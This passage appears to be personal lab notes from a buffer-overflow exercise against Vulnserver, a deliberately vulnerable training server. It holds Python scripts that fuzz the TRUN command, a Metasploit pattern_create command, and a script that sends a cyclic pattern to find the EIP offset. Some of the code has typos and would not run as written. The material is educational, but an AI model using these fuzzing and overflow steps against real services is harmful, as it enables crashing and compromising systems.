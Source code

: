{% highlight ruby %}<br>
#!/usr/bin/python  
import sys, socket  
from time import sleep  
buffer = A * 100  
while True:  
    try:  
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  # create socket connection  
        s.connect(('192.168.x.x,9999'))  # point the socket connection to vulnserver  
        s.send(('TRUN /.:/ ' + buffer)) # Added the .: just because we saw that it runs when we send TRUN before the chars begin.  
        s.close()  
        sleep(1)
        buffer = buffer + “A”*100 # If 100 wasn't enough, let's grow exponentially  
    except:  
        print “Fuzzing crashed at %s bytes” % str(len(buffer)) # (len(var)) will run funct Length on variable Buffer and should tell us the position that broke things.    
        sys.exit()  
{% endhighlight %}</p>
<hr>
<p class="has-line-data" data-line-start="107" data-line-end="116">chmod +x <a href="http://1.py">1.py</a><br>
./1.py<br>
In immunity, vulnserver starts receiving connections then crashes<br>
ctrl+c to stop <a href="http://1.py">1.py</a><br>
Output: Fuzzing crashed at 2700 bytes<br>
Looking in Immunit, doesn’t look ike EIP was overwritten<br>
<img src="https://i.imgur.com/qYtOt6t.png" alt="imageB"><br>
He says, round it up to about 3000 bytes<br>
So about 3000 will crash out of the buffer, I guess more will get us to EIP.</p>
<h2 class="code-line" data-line-start=117 data-line-end=118 ><a id="Finding_the_Offset_117"></a>Finding the Offset</h2>
<p class="has-line-data" data-line-start="118" data-line-end="123">Looking for the EIP<br>
Tool in MSF is pattern_create<br>
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000 // -l is Length<br>
Hit enter<br>
It generates a crazy cyclical code that will have to be sent into server.  We will later come back and feed a new value back to the tool to find the offset, because maths.  </p>
<hr>
<p class="has-line-data" data-line-start="124" data-line-end="138">New demo script, named <a href="http://2.py">2.py</a>:<br>
{% highlight ruby %}<br>
#!/usr/bin/python  
import sys, socket  
offset = "<paste code here>"  
try:  
    s=socket(socket.AF_NET,socket.SOCK_STREAM)  
    s.connect(('192.168.x.x',9999))  
    s.send(('TRUN /.:/ ' + offset)) # send the value  
    s.close()  
except:  
    print “Error connecting to server”  
    sys.exit() # then close the connection, we'll use tool to find offset based on char pattern  
{% endhighlight %}</p>
<hr>
<p class="has-line-data" data-line-start="139" data-line-end="151">chmod +x <a href="http://2.py">2.py</a><br>
./2.py<br>
In immunity, server starts accepting connections and immediately crashes.<br>
Looks like it is going right through EBP and into the EIP.<br>
<img src="https://i.imgur.com/WfDKLji.png" alt="imageC"><br>
What we’re looking for is the hex value in EIP (386F4337)<br>